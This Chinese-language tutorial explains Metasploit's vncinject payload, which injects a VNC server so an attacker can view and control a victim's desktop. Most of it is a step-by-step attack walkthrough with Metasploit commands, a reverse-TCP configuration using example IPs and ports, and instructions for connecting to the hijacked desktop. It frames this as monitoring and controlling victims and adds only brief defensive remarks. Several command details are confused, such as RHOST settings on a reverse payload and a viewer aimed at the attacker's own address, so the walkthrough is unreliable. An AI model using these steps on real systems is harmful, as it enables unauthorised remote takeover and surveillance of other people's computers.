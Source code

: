 `vncinject` 是 Metasploit 框架中的一种模块，用于通过 VNC（Virtual Network Computing）协议在受害者的计算机上注入一个 VNC 服务器，使攻击者能够远程控制受害者的桌面环境。这个模块非常适合在图形用户界面（GUI）环境中执行操作，因为它允许攻击者直接控制受害者的桌面，就像坐在受害者计算机前一样。

### `vncinject` 详解

1. **概念**：
   - **VNC（Virtual Network Computing）**：VNC 是一种远程显示系统，允许用户通过网络远程控制另一台计算机的桌面环境。
   - **注入（Injection）**：在这种情况下，注入指的是将一个 VNC 服务器嵌入到受害者的计算机中，使攻击者能够远程访问和控制受害者的桌面。

2. **工作原理**：
   - `vncinject` 模块将一个轻量级的 VNC 服务器注入到受害者的计算机中。
   - 注入成功后，攻击者可以通过 VNC 客户端连接到受害者的计算机，并控制其桌面环境。
   - 这种控制包括鼠标移动、键盘输入以及查看受害者屏幕上显示的内容。

3. **用途**：
   - **远程控制**：在渗透测试和攻击场景中，攻击者可以使用 `vncinject` 模块获取对目标计算机的完全控制权。
   - **GUI 操作**：允许攻击者在受害者的图形用户界面上执行复杂的操作，例如打开应用程序、复制文件等。
   - **监视**：攻击者可以监视受害者的活动，收集信息或执行后续的攻击步骤。

### 使用 `vncinject` 的步骤

1. **加载模块**：
   在 Metasploit 控制台中加载 `vncinject` 模块：
   ```sh
   use payload/windows/vncinject/reverse_tcp
   ```

2. **设置选项**：
   配置目标主机（`RHOST`）和端口（`RPORT`）等必要选项：
   ```sh
   set RHOST <target_ip>
   set RPORT <target_port>
   set LHOST <your_ip>
   set LPORT <your_port>
   ```

3. **生成和发送 payload**：
   生成 payload 并将其发送到目标系统：
   ```sh
   exploit
   ```

4. **连接到 VNC 服务器**：
   一旦 payload 成功执行并注入 VNC 服务器，攻击者可以使用 VNC 客户端（如 RealVNC、UltraVNC 等）连接到目标系统：
   ```sh
   vncviewer <your_ip>:<your_port>
   ```

### 示例

以下是使用 `vncinject` 模块获取远程控制的一般步骤：

1. **配置 Metasploit**：
   ```sh
   use payload/windows/vncinject/reverse_tcp
   set RHOST 192.168.1.100
   set RPORT 4444
   set LHOST 192.168.1.200
   set LPORT 5555
   ```

2. **启动攻击**：
   ```sh
   exploit
   ```

3. **连接到受害者系统**：
   使用 VNC 客户端连接到 `192.168.1.200:5555`，获取受害者的桌面控制。

### 安全注意事项

- **权限**：注入 VNC 服务器需要在目标系统上具有足够的权限。
- **检测和防御**：网络管理员可以通过监控网络流量和使用入侵检测系统（IDS）来检测和防御 VNC 注入攻击。
- **加密**：VNC 默认不使用加密，因此可以通过 SSL 隧道或 VPN 来保护传输数据的安全性。

### 总结

`vncinject` 是 Metasploit 中的一个强大模块，通过注入 VNC 服务器实现对目标计算机桌面环境的远程控制。它在图形用户界面环境下特别有用，适用于执行复杂操作和监视受害者活动。攻击者可以通过 Metasploit 轻松配置和使用 `vncinject` 模块来实现这一功能。